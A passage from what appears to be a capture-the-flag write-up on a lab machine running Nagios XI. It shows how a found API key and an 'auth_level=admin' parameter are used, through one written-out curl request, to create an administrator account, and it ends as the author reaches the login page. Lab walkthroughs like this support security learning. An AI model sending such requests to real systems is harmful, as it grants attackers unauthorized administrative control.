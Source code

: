 This exploit won't work here, but it does show using this endpoint with
the following data:

![](/img/image-20240509073619286.png)

`auth_level` admin is interesting. `auth_level` also shows up in [this
forum post](https://support.nagios.com/forum/viewtopic.php?f=6&t=40502):

![](/img/image-20240509074140835.png)

I don't yet have admin access to the site, just the API, so I'll try to
create an admin user I can authenticate as.

#### Create User and Log In

I'll try it with the parameters above:



    oxdf@hacky$ curl -d "username=0xdf&password=0xdf0xdf&name=0xdf&email=0xdf@monitored.htb&auth_level=admin&force_pw_change=0" -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
    {"success":"User account 0xdf was added successfully!","user_id":6}



The user is created. I'll try logging into the site. It returns a
License Agreement:
